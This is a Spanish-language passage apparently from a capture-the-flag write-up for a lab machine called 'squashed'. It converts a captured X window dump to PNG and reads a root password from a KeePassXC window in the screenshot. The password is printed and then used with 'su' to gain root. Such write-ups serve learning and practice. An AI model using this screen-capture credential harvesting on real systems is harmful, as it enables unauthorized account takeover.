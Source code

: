 Ahora para convertir este archivo en una imagen vamos a hacer uso del comando "convert" (instalar con "sudo apt install imagemagick")

```
$ convert screenshot.xwd screenshot.png
$ file screenshot.png
screenshot.png: PNG image data, 800 x 600, 8-bit/color RGB, non-interlaced
```

Si visualizamos el contenido de la imagen veremos que se ve la ventana del KeePassXC donde se ve la contraseña del usuario root.

<img src="keepass.png">

```
alex@squashed:/tmp$ su root
Password: cah$mei7rai9A

root@squashed:/tmp# whoami
root
```
